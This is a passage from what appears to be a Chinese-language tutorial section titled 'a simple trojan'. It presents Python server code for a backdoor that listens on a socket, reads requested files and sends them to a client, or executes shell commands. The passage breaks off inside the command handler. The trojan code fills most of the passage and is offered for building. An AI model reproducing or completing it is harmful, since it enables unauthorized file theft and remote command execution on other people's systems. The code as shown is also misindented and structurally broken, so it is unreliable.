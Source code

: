 ![0.png](./images/0.jpg)



## 3.2 一个简单木马
实现一个基本的木马程序。该程序可以实现读取服务端文件内容发送给客户端，或者执行shell命令。

服务端:
```
import socket
import sys
import os


class server:
    def __init__(self, ip, port):
        self.port = port
        self.ip = ip
        self.bufferSize = 10240

    def start(self):  # 启动监听，接收数据
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.bind((self.ip, self.port))  # 绑定
            s.listen(10)  # 监听
            print('等待客户端连接')
            while True:  # 一直等待新的连接
                try:
                    conn, addr = s.accept()  # 接收连接
                    print('客户端连接 ' + addr[0] + ':' + str(addr[1]))
                    while True:  # 保持长连接
                        data = conn.recv(self.bufferSize)#接收数据
                        if not data:#断开连接时退出当前循环
                            break
                        else:
                            self.executeCommand(conn,data)
                    conn.close()#关闭当前连接
                    except socket.error as e:
                        print(e)
                        conn.close()  # 关闭连接
                    finally:
                        s.close()  # 关闭服务端


def executeCommand(self, tcpCliSock, data):  # 解析并执行命令
    try:#
        message = data.decode("utf-8")
        if os.path.isfile(message):#判断是否是文件
```